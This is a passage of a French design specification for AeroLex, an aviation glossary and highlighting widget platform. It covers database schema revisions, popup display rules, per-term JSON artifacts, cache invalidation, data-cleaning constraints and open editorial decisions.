3. **À localité égale, l'exclusion gagne** : deux zones de niveau 2 sur le même nœud → priorité la plus haute, puis `exclude` en cas d'égalité.
4. Les plugins ne peuvent que **retirer** (veto) ou **rerouter** des matches, jamais outrepasser une exclusion — l'intégrateur garde toujours le dernier mot sur SA page.

### E.4 Validation, dry-run, versionnement

**À l'écriture (PUT /rules, PUT /zones, PUT /match-rules)** — tout échec = `422` avec le chemin JSON fautif, rien n'est écrit (transaction) :
- **sélecteur CSS** parsé serveur (parseur de sélecteurs, pas de regex maison) — sélecteur invalide refusé ;
- **zone qui exclut tout** : `exclude` avec sélecteur `*`, `html` ou `body` SANS `url_pattern` → refusé ; avec `url_pattern` → accepté avec warning (cas légitime : neutraliser le widget sur une section du site) ;
- **reroutage** : `target` doit résoudre vers un slug du même lexique ; cible = source refusé (CHECK existant). Boucle A→B→A **inoffensive par construction** : le moteur résout le reroutage en **un seul saut**, jamais de chaînage — mais un warning est émis si la cible porte elle-même un reroute ;
- **trigger_words** : normalisés à l'écriture (même fonction que `terms.normalized`), `*` autorisé uniquement en fin, minimum 2 caractères, doublons dédupliqués ;
- **term_flags/match_rules** sur un terme inconnu du lexique → refusé (le nom exact du terme le plus proche est suggéré).

**Dry-run — tester avant de publier** : `POST /lexicons/{id}/preview` avec `{url}` (le serveur fetch le HTML), `{html}` ou `{text}`, plus un `draft` optionnel (document E.2 appliqué par-dessus l'état courant, **sans écrire**). Réponse : `[{form, slug, action}]` où `action` ∈ `highlight` / `reroute→<slug>` / `skipped(zone: .qcm)` / `skipped(context_required non satisfait)` / `skipped(case)`. C'est ce qui rend l'itération sûre : on voit exactement ce qu'une règle change sur une vraie page AVANT de la publier. Le back-office l'affiche en surbrillance simulée.

**Versionnement / rebuild** — coût minimal par nature du changement :
- modif de **zone** → réécriture de `manifest.json` seul (les zones y vivent), propagation ≤ 5 min par TTL, **aucun rebuild d'index ni de pages** ;
- modif de **match_rules / term_flags** → régénération du seul `index.<hash>.json` + manifest (les règles voyagent dans l'index) — pas de pages HTML ;
- activation d'un **plugin** → copie de `plugins/<nom>.js` + manifest.
Les zones et règles entrent dans le `content_hash` de `builds` : un build est déclenché si et seulement si quelque chose a réellement changé, et l'historique `builds.manifest` dit quelle version des règles est publiée (revert = re-PUT d'un document précédent, que le client peut garder en git — le document E.2 est fait pour ça).

---

## F. Ce que je ne recommande PAS

1. **Stocker du HTML généré (ou les artefacts statiques) en base.** La base porte du contenu structuré ; le HTML est un produit dérivé du build, régénérable à volonté. Le stocker crée une deuxième source de vérité qui divergera — la version fichiers + `builds.manifest` suffit à savoir ce qui est publié. (Même logique pour le document de règles §E.2 : recomposé depuis les tables, jamais stocké tel quel.)
2. **Tout état dérivé stocké** : `statut`, `membres_famille`, compteurs en dur dans `index.html`, flag `dirty` de build, xrefs « réciproques » écrites deux fois. Chaque cas a déjà produit une désynchronisation réelle sur ce projet. Règle unique : si ça se calcule, ça se calcule.
3. **Exécuter du code de génération fourni par un tiers.** Les générateurs de schémas sont du code serveur : uploadables, ils seraient une RCE offerte. Plugins de plateforme déclarés, revue humaine pour en ajouter — un tiers qui veut illustrer uploade un SVG statique (sanitizé) via `term_media`.
4. **Sur-normaliser les taxonomies et les configs** : pas de table `plans`, pas de table `plugin_registry`, pas d'EAV pour les champs exotiques des lexiques tiers — `terms.extra jsonb` et des `CHECK` font le travail à cette échelle. On normalise quand une requête réelle l'exige, pas avant. (Corollaire inverse : ne pas *sous*-normaliser variantes et xrefs en JSON dans `terms` — l'unicité des formes et l'intégrité du graphe exigent des lignes.)

**Arbitrages restant pour Louis** : (0a) mode `open` avec clé posée = mesure en « sessions » via le seul manifest (proposé, coût zéro) vs tout passer au worker même en open (mesure exacte, mais on perd le cache immutable du chemin chaud) ; (0b) affichage ou non d'un message au visiteur final quand une clé est révoquée (proposé : non — console développeur uniquement) ; (0c) prix/palier du plan `pro` incluant les générateurs de schémas (« illustrez votre lexique », §A-quater) ; (1) format d'URL des lexiques privés — suffixe secret dans le path (proposé) vs vraie auth HTTP devant les fichiers ; (2) sort des **204 fiches `schema: True` orphelines** (jetées avec rapport — proposé — ou revue éditoriale pour en rattacher certaines aux 9 générateurs existants) ; (3) quotas exacts du plan `free` (dont les 20 Mo médias proposés) ; (4) stockage médias : **R2 Cloudflare (recommandé, secret déjà en trousseau, seuls artefacts non régénérables)** vs disque local hors `dist/` ; (5) accepter ou non l'upload SVG par les comptes `free` (sanitization obligatoire, ou whitelist raster-only pour eux) ; (6) **sélecteur CSS réel des blocs QCM des pages ATCF** — à relever sur le HTML de prod avant la migration (la zone `exclude` est prête, il manque la valeur) ; (7) le dry-run `preview` avec `{url}` fait fetcher une URL arbitraire par le serveur (SSRF) — restreindre aux domaines déclarés dans `widget_config.allowed_origins` (proposé) ou n'accepter que `{html|text}`.

---

*Extensions du 04/08/2026 (nuit du 3 au 4) — décisions Louis + mesures réelles sur le prototype `aero`. Les sections G à M étendent le modèle ; les révisions de décisions antérieures sont signalées explicitement.*

## G. Multi-familles — un terme, N familles

### G.1 Révision : `terms.family_id` est supprimé

**RÉVISION d'une décision du §A.** Le champ unique `terms.family_id` est remplacé par une table de liaison. Motif : limite réelle constatée — `hPa` est une unité ET un terme d'altimétrie, `VNE` une vitesse ET une limitation, `MTOW` une masse ET une donnée de document de bord. Le champ unique force un choix arbitraire qui prive l'autre famille de son membre (tableau incomplet = information fausse). Demande explicite de Louis.

```sql
CREATE TABLE term_families (
  term_id    bigint NOT NULL REFERENCES terms ON DELETE CASCADE,
  family_id  bigint NOT NULL REFERENCES families ON DELETE CASCADE,
  is_primary boolean NOT NULL DEFAULT false,
  position   int NOT NULL DEFAULT 0,          -- ordre d'affichage des familles SECONDAIRES sur la fiche
  PRIMARY KEY (term_id, family_id)
);
CREATE UNIQUE INDEX term_families_one_primary ON term_families (term_id) WHERE is_primary;
```

Trigger de cohérence : même lexique (comme xrefs) + **exactement une primaire dès qu'il existe au moins une liaison** (l'index partiel garantit « au plus une » ; le trigger garantit « au moins une » — la première liaison insérée devient primaire par défaut).

### G.2 Famille primaire — OUI, obligatoire

Il y a UNE famille primaire parmi les N. Justification : plusieurs consommateurs exigent une valeur **scalaire** — fil d'Ariane, méta de page (`<meta>`, JSON-LD `DefinedTerm.inDefinedTermSet`), tri du back-office, colonne « famille » des exports CSV. Sans primaire, chacun inventerait son heuristique (première alphabétique ? la plus peuplée ?) et on retomberait dans du dérivé instable. La primaire est un choix ÉDITORIAL (pour `hPa`, Louis décide si c'est d'abord une unité ou d'abord de l'altimétrie), pas un calcul.

### G.3 Affichage sur la page et dans le fichier mot

- **Page HTML** : un tableau PAR famille, empilés — primaire d'abord, puis secondaires par `position`. Un seul tableau fusionné mélangerait des ensembles sans rapport (les unités avec les termes d'altimétrie) : illisible.
- **Fichier mot `t/<slug>.json`** (§I) : `familles: [{n, sl, p, membres?}]` — les **membres ne sont inlinés que pour les familles ≤ 13 membres** (seuil = la règle éditoriale « familles ≤ 13 » déjà actée) ; au-delà, la famille porte `count` + le slug de sa page, et la popup affiche « Unités (47 termes) → » en lien. Justification : `unites` compte des dizaines de membres — les inliner dans chaque fiche d'unité multiplierait le poids des fichiers mot (mesuré : 1 872 o moyens aujourd'hui avec UNE famille) par un facteur inacceptable pour un contenu que personne ne lit dans une popup.
- **Index léger** : AUCUNE information de famille (clés `s`/`sl`/`v` uniquement, §I) — le multi-familles a un **coût nul sur l'index**.

### G.4 Migration depuis le champ unique

Données existantes : `terms.family_id` (NULL pour ~380 fiches) + les 30 `famille` de l'overlay déjà fusionnées (§D.2).

```sql
INSERT INTO term_families (term_id, family_id, is_primary)
  SELECT id, family_id, true FROM terms WHERE family_id IS NOT NULL;
ALTER TABLE terms DROP COLUMN family_id;
```

Rien n'est perdu : chaque appartenance existante devient la primaire de son terme. Les appartenances **secondaires** (hPa→altimétrie, VNE→limitations, MTOW→documents_bord) n'existent nulle part aujourd'hui : c'est de la **ressaisie éditoriale post-migration**, amorcée par un rapport de candidats (termes cités dans les définitions d'une autre famille). Le cas MTOW est traité au §K (c'est d'abord un doublon à fusionner, ensuite un multi-familles).

---

## H. Options d'affichage de la popup

### H.1 La donnée et sa hiérarchie

Le prototype émet une popup en blocs nommés (`alx-pop-def`, `alx-pop-schema`, `alx-pop-family`, `alx-pop-variants`, `alx-pop-xrefs`, `alx-pop-link`, `alx-pop-count`), chacun masquable par variable CSS (`--alx-pop-show-*`). La config réelle vit dans `dist/aero/lexicon.json` : `"popup": {"def":true,"schema":true,"variants":true,"family":true,"xrefs":true,"link":true}`.

**Règle métier gravée : publication > préférence CSS.** Le bloc « voir la fiche en ligne » n'est émis par le JS QUE si `html_published=true` (dérivé : `visibility='public'` ET dernier build success a produit les pages). Principe général : **le JS fournit, le CSS dispose — le CSS peut masquer un bloc autorisé, il ne peut JAMAIS en créer un.** Un bloc non autorisé n'est pas dans le DOM ; il n'y a rien à démasquer, même en bidouillant les styles côté page hôte.

### H.2 Où vivent les options — lexique ET pose, héritage restrictif

| Niveau | Colonne | Rôle |
|---|---|---|
| Lexique | `lexicons.popup_options jsonb NOT NULL DEFAULT '{}'` | ce que le CRÉATEUR autorise. Clés : `def, schema, family, variants, xrefs, link, count` ; absente = true |
| Pose | `embed_keys.popup_overrides jsonb NOT NULL DEFAULT '{}'` | ce que l'INTÉGRATEUR retire pour SA pose |

**Résolution : ET logique — une pose peut désactiver un bloc autorisé, elle ne peut JAMAIS activer un bloc que le créateur du lexique a désactivé.** Réponse ferme : NON, et c'est une règle de **gouvernance**, pas un détail technique : le contenu appartient au créateur du lexique ; s'il a coupé les xrefs (parce qu'elles révèlent la structure de son corpus) ou le lien fiche (lexique non publié en HTML), aucune pose ne doit pouvoir les rouvrir — sinon la clé de pose deviendrait un canal d'exfiltration de contenu non consenti. Validation à l'écriture : un override `true` sur une clé désactivée au lexique → `422`. Le serveur (build ou worker keyed) émet dans le manifest/`lexicon.json` la **résolution finale** par pose — le widget ne fait aucun calcul de droits.

### H.3 Options d'affichage vs thème — DEUX objets distincts

Tranché : **deux objets**. Le thème (§A-quater) répond à « de quoi ça a l'air » (23 variables cosmétiques validées par type, livrées en CSS) ; les options répondent à « qu'est-ce qui existe » (blocs émis ou non par le JS). Les fusionner violerait la règle H.1 : un thème est un fichier CSS, et le CSS ne doit jamais décider du contenu. Accessoirement, les cycles de vie divergent : un thème est réutilisable entre poses (référencé par `theme_id`), une option de pose est propre à la clé.

Les variables `--alx-pop-show-*` restent le **troisième cran, purement cosmétique** : masquer par CSS un bloc autorisé et émis (cas : l'intégrateur en `data-css="off"` qui veut une popup minimale sans toucher au back-office). Elles entrent au registre des variables stylables (type enum `block|none`), portant à 28 le registre du §A-quater. **Révision de nommage signalée** : le prototype utilise le préfixe `--alx-*` alors que le §A-quater a gravé `--aerolex-*` ; à la plateforme, préfixe unique `--aerolex-*` (alias `--alx-*` lus par le moteur pendant une version de transition, puis retirés).

---

## I. Architecture « un fichier par mot » — artefact dérivé, contrat de payload

### I.1 Révision : `t/<slug>.json` remplace `defs/<slug>.json`

**RÉVISION du §B.** L'artefact par terme n'est plus le `defs/<slug>.json` minimal (~300 o) : c'est `t/<slug>.json`, **autosuffisant pour la popup** (définition, familles+membres, variantes, xrefs résolues, SVG inline, voisins prev/next). Mesures réelles (04/08, base aero 1 296 termes) : poids moyen 1 872 o, max 6 122 o, **coût réel d'un clic 636 o gzip**. En contrepartie, l'index est allégé à trois clés par terme — `s` (statut), `sl` (slug), `v` (variantes) — : 484 790 → 89 861 o brut (−81,5 %), 137 644 → **22 408 o gzip** (−83,7 %). Décision Louis : **l'index ne sert plus qu'au surlignage, le contenu est chargé au clic.** Les règles de reconnaissance compactes (`cr/cs/rr/xp`, §A-bis) restent dans l'index : elles servent AU surlignage, pas au contenu.

*(Harmonisation de clés signalée : le §A-bis notait `s` = slug dans ses exemples ; la réalité mesurée est `s` = statut, `sl` = slug. La convention retenue est celle du prototype — `s`/`sl`/`v` — les exemples du §A-bis se lisent avec `sl`.)*

Le statut `s` dans l'index n'est PAS une contradiction avec « le statut n'est jamais stocké » (§A) : c'est une valeur **dérivée au build** (`definition = ''`), exportée parce que le widget doit styler `--aerolex-hl-undef-*` sans charger le fichier du mot. Dérivée en base, matérialisée dans l'artefact : conforme.

### I.2 Statut d'artefact et source de vérité

`t/<slug>.json` est un **ARTEFACT DÉRIVÉ RÉGÉNÉRABLE**. La DB reste la seule source de vérité ; supprimer `dist/` entier et rebuilder produit octet pour octet les mêmes fichiers (build déterministe : tris explicites insensibles à la casse, ordre stable variantes puis synonymes). Aucun de ces fichiers n'est jamais édité à la main ni stocké en base (§F.1).

### I.3 Contrat du payload — une seule fonction produit HTML et JSON

**Règle gravée : le HTML et le JSON ne divergent JAMAIS parce qu'ils ont UN SEUL producteur.** Dans le prototype : `scripts/term_payload.py::build_payload(terme, ctx)` alimente à la fois le rendu des pages (`build_pages.py`) et la sérialisation (`build_terms_json.py`). Dans la plateforme : même principe, le producteur lit la DB — toute évolution du contenu d'une fiche se fait à UN endroit. La divergence HTML/JSON était un bug vécu (deux implémentations parallèles jusqu'au 04/08 matin) : ce principe est le correctif structurel.

Contrat (versionné par `payload_version`, aujourd'hui **1**, porté par `lexicon.json`/manifest ET par la clé `v` de chaque fichier — le JS refuse un fichier dont `v` ≠ celui du manifest : anti-cache-périmé) :

| Champ | Type | Obligatoire | Contenu |
|---|---|---|---|
| `v` | int | oui | payload_version |
| `terme` / `slug` | text | oui | forme d'affichage / slug |
| `definition` | text | oui (peut être `""`) | définition brute |
| `redigee` | bool | oui | **dérivé** : `definition != ''` — seul pilote d'affichage de l'état |
| `categorie` | text | oui (peut être `""`) | |
| `familles` | array | oui (peut être `[]`) | §G.3 — primaire d'abord, membres inlinés si ≤ 13 |
| `variantes` | array | oui | variantes puis synonymes, dédoublonnés |
| `xrefs` | array | oui | `{t, sl}` — filtrées sur existence réelle : **zéro lien mort par construction** |
| `schema` / `schema_svg` | text/null | oui | nom du générateur + SVG inline (la popup ne fetche rien d'autre) |
| `prev` / `next` | obj/null | oui | voisins alphabétiques `{t, sl}` |

**Révision signalée** : le prototype exporte encore un champ `statut` brut « pour audit » ; à la migration plateforme ce champ **disparaît du contrat** (le statut source est jeté, §D) — `redigee` suffit et reste dérivé. Passage à `payload_version: 2` à ce moment-là, avec `famille`/`famille_membres` scalaires remplacés par `familles[]` (§G).

---

## J. Invalidation de cache par empreinte + régénération incrémentale

### J.1 Le problème vécu

Deux fois dans la nuit du 03-04/08, Cloudflare a servi un vieux CSS/JS (`cf-cache-status: HIT`) après déploiement. Cause racine : version d'asset écrite À LA MAIN, donc oubliable. **Règle : aucune version manuelle, jamais — l'empreinte est calculée.**

### J.2 Empreinte de build

À chaque build : `fingerprint = hash8(contenu réel de aerolex.js + aerolex.css + config sérialisée du lexique [popup_options, plugins, thème par défaut, payload_version])`. Écrite dans **`build-info.json`** à la racine du lexique : `{fingerprint, date, nb_termes, payload_version}` — et enregistrée dans `builds.manifest` (§A). Propagation : **toutes les URLs d'assets globaux portent l'empreinte** (`aerolex.<fp>.js`, `aerolex.<fp>.css`, `index.<fp>.json` — le hash de contenu par fichier du §B reste valable, l'empreinte de build est le hash composite qui couvre AUSSI la config). Toute modif de code OU de réglage client change l'empreinte automatiquement : un HIT Cloudflare sur une vieille URL devient inoffensif, la nouvelle URL n'a jamais été cachée.

### J.3 Les fichiers par mot : PAS d'empreinte dans l'URL — tranché

Les 1 296 `t/<slug>.json` sont servis à **chemin stable**, `Cache-Control: max-age=3600` + `ETag` (hash du contenu), et **purge Cloudflare ciblée** à chaque régénération (mécanique déjà actée au §B pour `defs/`). Pourquoi pas de hash dans le nom : il faudrait porter le hash de chaque fichier dans l'index pour que le widget connaisse l'URL — soit ~9 o × 1 296 ≈ +12 Ko brut sur un index qu'on vient de faire maigrir de 81 %, pour éviter une purge qui coûte un appel API. Et une empreinte GLOBALE en query (`?v=<fp>`) invaliderait les 1 296 fichiers au moindre build alors qu'un build incrémental n'en touche que 3-4. Le couple TTL court + ETag + purge ciblée est strictement meilleur ici. Garde-fou anti-périmé : la clé `v` du payload (§I.3) — un fichier servi périmé avec un `payload_version` incompatible est refusé par le JS.

### J.4 Régénération incrémentale — graphe de dépendances

Demande Louis : après modification d'un terme, ne régénérer QUE l'impacté. Le graphe de dépendances est **entièrement calculable en base** (familles = `term_families`, citations = `term_xrefs` entrantes, voisins = ordre alphabétique). Table de vérité par type de modification :

| Modification | `t/<slug>.json` + `<slug>.html` du terme | fichiers des membres de ses familles | fichiers des termes qui le citent (xrefs entrantes) | voisins alphabétiques (prev/next) | `index.<fp>.json` | `index.html` (sommaire) |
|---|---|---|---|---|---|---|
| définition seule | ✔ | — | — | — | seulement si passage vide↔rédigée (clé `s`) | seulement si passage vide↔rédigée (compteurs) |
| libellé `term` ou `slug` | ✔ | ✔ (le tableau affiche le libellé) | ✔ (le lien affiche le libellé) | ✔ (prev/next portent le libellé) | ✔ | ✔ |
| appartenances famille | ✔ | ✔ (familles quittées ET rejointes) | — | — | — | — |
| variantes | ✔ | — | — | — | ✔ (clé `v`) | — |
| xrefs sortantes | ✔ | — | — | — | — | — |
| ajout d'un terme | ✔ (création) | ✔ | — | ✔ (2 fichiers) | ✔ | ✔ |
| suppression | ✔ (suppression + purge) | ✔ | ✔ (la xref filtrée disparaît) | ✔ | ✔ | ✔ |
| catégorie / schéma / médias | ✔ | — | — | — | — | — |

Le build incrémental calcule l'ensemble impacté par requêtes SQL sur ce tableau, régénère, uploade, purge par liste d'URLs. Cas courant (édition de définition) : **2 fichiers**. Pire cas raisonnable (renommage d'un terme très cité d'une grosse famille) : quelques dizaines — toujours sans commune mesure avec un rebuild des 1 296. Le `content_hash` de `builds` reste le filet : si le diff incrémental doute (changement de gabarit, de config → empreinte J.2 modifiée), rebuild complet.

---

## K. Nettoyage des données — étape codifiée de la méthode

Nouvelle étape de la méthode AeroLex (demande Louis), en deux volets : ce que la **DB rend impossible** (contraintes) et ce que le **build rapporte** (QA, jugement humain requis).

### K.1 Cas réels constatés dans `aero` (04/08)

1. **Permutations** : `courte finale` / `finale courte` — 2 fiches, 2 définitions, même famille. Canonique = `courte finale` ; l'autre graphie doit matcher, une seule fiche doit exister.
2. **Quasi-doublons** : `check-list` / `checklist`.
3. **Doublon qui CASSE une fonctionnalité** : `MTOW` existe 2× — comme terme (famille `documents_bord`, fausse) ET comme variante de `masse maximale au décollage` (famille `masses`) ; plus `mtom`. Résultat constaté en usage réel : MTOW ne se surligne pas dans les cours.
4. **Casse incohérente** (~40 vitesses) : `VNE/VNO/VFE/VLO/VA/VS0/VS1` majuscules, `Vapp/Vref/Vlof/Vtoss/Vx/Vy` capitale+minuscules, `vr/vc/vle` minuscules.
5. **Symboles sans lettre latine** : `°`, `θ` → slugify vide, collision garantie.

### K.2 Ce que la DB contraint (états impossibles par construction)

- **Doublon exact et quasi-exact** : `UNIQUE (lexicon_id, normalized)` sur `terms` + sur `term_variants` + trigger croisé terme↔variante (§A) rendent le cas MTOW **impossible** : la création du terme `MTOW` échouerait puisque la variante `MTOW` de « masse maximale au décollage » occupe déjà la forme. C'est la contrainte qui manquait au prototype (dict Python sans contrainte).
- **Slug valide** : `CHECK (slug ~ '^[a-z0-9][a-z0-9-]*$')` sur `terms.slug`. Un terme dont la slugification est vide (`°`, `θ`) est **refusé à l'INSERT sans slug fourni manuellement** (`degre`, `theta`) — la collision de slugs vides devient impossible.
- **Sigles courts sensibles à la casse** : trigger à l'écriture — si `length(term) ≤ 4` ET `term ≠ lower(term)` ET `lower(term)` est un mot du dictionnaire d'arrêt du lexique (liste `stop_ambiguous` : va, vc, vr, vg, or, air…), alors `case_sensitive` DOIT être true (`422` sinon, avec explication). Pour les autres sigles courts : warning non bloquant. Justification : `VA→va` = verbe aller — un faux positif de surlignage dans un cours est le pire bug produit possible (constaté).
- **Une seule fiche par forme** : les permutations et variantes orthographiques se résolvent par **fusion** — la fiche canonique absorbe, l'autre graphie devient `term_variants` (l'unicité des variantes garantit qu'elle ne pourra plus redevenir une fiche).

### K.3 Ce que le build rapporte (QA, non bloquant)

Rapport d'anomalies produit à chaque build, consultable au back-office (table `build_warnings(build_id, kind, term_id, detail)` ou simple JSON dans `builds.report`) :

- **Permutations probables** : deux termes dont le multiset de tokens normalisés est identique (`{courte, finale}`) → « doublon probable, fusion suggérée ». Pas une contrainte : « pompe à essence » / « essence à pompe » pourraient théoriquement coexister — le jugement est humain.
- **Quasi-doublons** : formes égales après retrait de TOUTE ponctuation ET des espaces (`check-list`→`checklist`) → même rapport. Pas une contrainte : trop agressif en général (des multi-mots distincts collisionneraient).
- **Casse incohérente par famille** : au sein d'une famille, formes d'affichage ne suivant pas le motif dominant (regex majoritaire, ex. `^V[A-Z0-9]{1,3}$` chez les vitesses) → rapport. La convention (PPL : tout majuscules pour les V-speeds normalisées) est un choix éditorial, le build le vérifie, il ne l'impose pas.
- **Fiches de remplissage suspectes** : définition < 8 mots sur un terme `expected_depth='standard'` (§L).

### K.4 Les TROIS formes d'un terme — gravé

Un terme a **trois formes distinctes, jamais confondues** :

| Forme | Colonne | Exemple (`VA`) | Rôle |
|---|---|---|---|
| **AFFICHAGE** | `terms.term` | `VA` (convention PPL) | ce que voient le lecteur, la page, la popup, les tableaux |
| **SLUG** | `terms.slug` | `va` (minuscules toujours) | l'URL, le nom de fichier `t/va.json` — jamais utilisé pour matcher |
| **MATCHING** | `terms.normalized` + `case_sensitive` | `va` + `cs=true` | la comparaison au surlignage : si `case_sensitive`, le texte de la page doit reproduire la casse de la forme d'AFFICHAGE (accents neutralisés quand `accent_sensitive=false`) ; sinon comparaison sur `normalized` |

La proposition de Louis (slugs minuscules + comparaison minuscules) est retenue pour le SLUG et pour les termes ordinaires ; le piège `VA`→`va` (verbe aller), `VC`, `VR`, `VG` est neutralisé parce que le MATCHING est une forme séparée gouvernée par `case_sensitive` — obligatoire pour ces sigles (trigger K.2). Le widget reçoit déjà tout : forme canonique (clé d'index), `sl`, `cs` — aucune donnée nouvelle à transporter.

### K.5 Homonymes — deux concepts, un mot

Cas réel : `dérive` = dérive due au vent (navigation) ET empennage vertical (structure). Modèle (généralisation du mécanisme « vent arrière » déjà acté, §A-bis) :

- **Deux fiches**, formes d'affichage désambiguïsées : `dérive (navigation)` et `dérive (empennage)` → slugs distincts et parlants `derive-navigation` / `derive-empennage` — **l'URL désambiguïse par le slug**, jamais par un suffixe numérique aveugle (`derive-2` interdit pour un homonyme : URL = sens).
- **La forme de surface `dérive` appartient à UNE seule fiche** (le sens par défaut, choix éditorial — ici la navigation, dominante dans un corpus PPL) via `term_variants`. La contrainte d'unicité des formes est respectée : pas deux propriétaires.
- **`term_match_rules(kind='context_reroute')`** route vers l'autre sens quand le contexte matche (`empennage`, `gouverne`, `dérive verticale`, `structure`…). Un seul saut, comme acté §E.4.
- La popup d'un homonyme émet un bloc « Autre sens : dérive (empennage) → » — modélisé comme une **xref ordinaire** posée réciproquement entre les deux fiches (deux lignes orientées, assumées : ici la réciprocité est éditorialement voulue, pas structurelle).

---

## L. Taxonomie : familles validées, familles de remplissage

### L.1 Familles validées par Louis (exemples de référence de la méthode)

- **`unites`** : kg, psi, kt, NM, hPa, ft, l/h, inHg, °C, km/h, m/s, volt, rpm… — famille transverse type : la plupart de ses membres sont AUSSI membres d'une famille métier (hPa→altimétrie) — cas d'école du multi-familles §G, avec `unites` en famille **secondaire** par convention (la primaire est la famille métier quand elle existe).
- **`codes_aerodromes`** : ~60 codes OACI. Seul LFPN mérite une vraie fiche ; les autres existent pour la complétude (surlignage + mini-définition « Aérodrome de X (code OACI) »).

### L.2 Profondeur attendue — l'attribut « remplissage »

Le cas `codes_aerodromes` révèle un besoin : des membres qui existent pour la complétude sans mériter de contenu riche. C'est une **intention éditoriale**, non dérivable (une définition courte peut être un stub assumé OU une fiche bâclée — seul l'éditeur le sait), donc stockée :

- `families.default_depth text NOT NULL DEFAULT 'standard' CHECK IN ('standard','minimal')` — la famille déclare la profondeur attendue de ses membres ;
- `terms.expected_depth text NULL CHECK IN ('standard','minimal')` — override par terme (NULL = hériter de la famille PRIMAIRE ; LFPN pose `standard` dans une famille `minimal`).

Effets : le QA du build (§K.3) ne signale pas les définitions courtes des `minimal` ; les pipelines IA de rédaction ciblent un gabarit court (1 phrase) pour eux ; les compteurs « fiches rédigées » du sommaire peuvent les distinguer. AUCUN effet sur le surlignage ni la popup : un stub se surligne et se lit normalement — c'est une cible de qualité, pas un statut.

---

## M. Surlignage dans les schémas SVG

### M.1 État implémenté (04/08) et sa modélisation

Les libellés `<text>` des schémas générés sont rendus cliquables : 20 libellés matchés sur 121 dans les 9 schémas (dont 9 sur `tour_de_piste` — « vent arrière », etc.). **Limite structurelle assumée : seuls les `<text>` dont le contenu ENTIER correspond à un terme sont marqués** — découper un `<text>` pour surligner un sous-mot casserait le positionnement x/y du SVG. Ce n'est pas une règle de données mais une contrainte du format, gravée ici pour qu'aucune évolution ne tente le découpage.

Le lien terme→schéma existe déjà (`terms.schema_generator_id` + `schema_params`, §A-ter). Le lien inverse — « ce schéma contient des termes du lexique » — est **dérivé, jamais stocké** (§F.2) : au build, le producteur matche chaque `<text>` (contenu entier, via la forme de MATCHING §K.4, `case_sensitive` respecté) contre l'index et **cuit le résultat dans le SVG** sous forme d'attributs `data-aerolex-term="<slug>"` sur les `<text>` reconnus. Le JS n'a plus qu'à poser les handlers sur ces attributs — zéro matching client dans les SVG, comportement identique popup/page (même artefact inliné dans les deux, §I.3).

### M.2 Évolution : zones cliquables déclarées

Un générateur pourra déclarer explicitement ses zones cliquables (formes, flèches, régions — pas seulement les libellés) : sortie du générateur étendue à `{svg, hotspots: [{selector_svg, term_slug, title?}]}`, le build validant que chaque `term_slug` existe (même filtre anti-lien-mort que les xrefs) et cuisant les mêmes attributs `data-aerolex-term`. C'est une **évolution du contrat des `schema_generators`** (code de plateforme, §A-ter — donc revue humaine), PAS une nouvelle table : les hotspots sont dérivés du couple (générateur, params), régénérables. **Distinction avec la table `zones` (§A-bis), assumée dans le nommage** : `zones` gouverne où le surlignage agit dans les pages HÔTES ; les hotspots SVG désignent quoi est cliquable DANS un artefact généré. Aucun recouvrement — on ne réutilise pas la table.

---

## N. Affichage du tableau de famille dans la popup — TROIS ÉTATS

### N.1 Le réglage vit dans la donnée, pas dans le JS

Décision Louis (04/08, verbatim) : « oui, déplié par défaut, et cela provoque le
scroll si nécessaire pour atteindre le bas de la liste ou de la page dans le popup ».

Trois états, portés par l'INDEX (clé `famille_af`), jamais codés en dur côté client :

| état | rendu |
|---|---|
| `masque` | le tableau de famille n'est pas rendu du tout |
| `replie` | rendu dans un `<details>` fermé — l'information à un clic |
| **`deplie`** | **rendu à plat, toujours visible — DÉFAUT de tout nouvel index** |

**DÉFAUT = `deplie`**, quelle que soit la taille de la famille. Cohérent avec la
gouvernance déjà actée : *le thème dit de quoi ça a l'air, les options disent ce qui
existe*. Le JS ne fait que LIRE l'état et se rabattre sur `deplie`.

Ordre de résolution (`_familleEtatAffichage`, `atcf-ppl/assets/aero.js`) :
`payload.famille_af` (le mot) > index global > `deplie`. Alias historiques tolérés
pour ne pas casser un index publié : `jamais`→`masque`, `demande`→`replie`,
`systematique`→`deplie`. `window.AEROLEX_FAMILLE` reste un override de debug local.

### N.2 Aucun seuil de taille — et pourquoi

Un repli automatique au-delà de 13 membres existait dans le client (constante
`FAM_INLINE_MAX`) : **supprimé**. Ce n'était pas une demande mais une initiative de
l'assistant, et il touchait les **899 termes sur 1300** dont la famille dépasse 13
membres — soit les 3/4 des fiches privées du bénéfice pédagogique visé. Le modèle
ne connaît donc AUCUN seuil de taille : seul l'état de la donnée replie.

### N.3 Le scroll est celui de la popup, une seule fois

Corollaire CSS de la décision : `.glos-fam-scroll` portait un
`max-height:320px; overflow-y:auto` qui créait une **seconde zone de scroll imbriquée**
dans la carte — la liste était tronquée à 320 px et le scroll de la popup n'atteignait
plus le dernier membre. Retiré. La liste prend sa hauteur naturelle et c'est
`#glos-overlay .glos-carte` (`max-height:80vh; overflow-y:auto`) qui scrolle, **une
seule fois**, jusqu'au bas du contenu. Règle générale : *un seul conteneur de scroll
par popup* — toute hauteur figée ajoutée sous `.glos-carte` retronque la liste.

---

## Arbitrages Louis en attente (ajouts du 04/08)

*(S'ajoutent aux arbitrages 0a–7 listés en fin de §F.)*

- **(8) Famille primaire de `hPa` et des unités transverses** : convention proposée = famille métier primaire, `unites` secondaire (§L.1) — à confirmer, ça pilote le fil d'Ariane de dizaines de fiches.
- **(9) Sens par défaut de chaque homonyme** (qui possède la forme de surface `dérive` : navigation proposé) — choix purement éditorial, à faire homonyme par homonyme.
- **(10) Convention de casse des V-speeds** : tout majuscules (VNE, VAPP) ou convention mixte (Vapp) ? Le modèle vérifie la cohérence (§K.3), il n'impose pas la convention — ~40 fiches à harmoniser d'un coup.
- **(11) Fusion `courte finale`/`finale courte`** : laquelle des deux DÉFINITIONS survit (elles diffèrent) — la fusion de fiches est mécanique, la fusion éditoriale ne l'est pas. Idem `check-list`/`checklist` et `MTOW`/`mtom`/`masse maximale au décollage`.
- **(12) Les ~59 `codes_aerodromes` hors LFPN** : stubs `minimal` générés (proposé) ou pas de fiche du tout (surlignage sans popup n'existe pas dans le modèle — donc stub ou rien).
- **(13) Blocs popup désactivables par défaut au niveau plateforme** : faut-il un défaut plateforme plus restrictif que « tout activé » pour les nouveaux lexiques (ex. `count` off) ? Pur choix produit.
- **(14) Le champ `count` de la popup** (`alx-pop-count`) n'a pas d'équivalent dans `lexicons.popup_options` du prototype (6 clés servies, 7 blocs émis) — l'ajouter au contrat (proposé) ou le considérer comme structurel non désactivable.
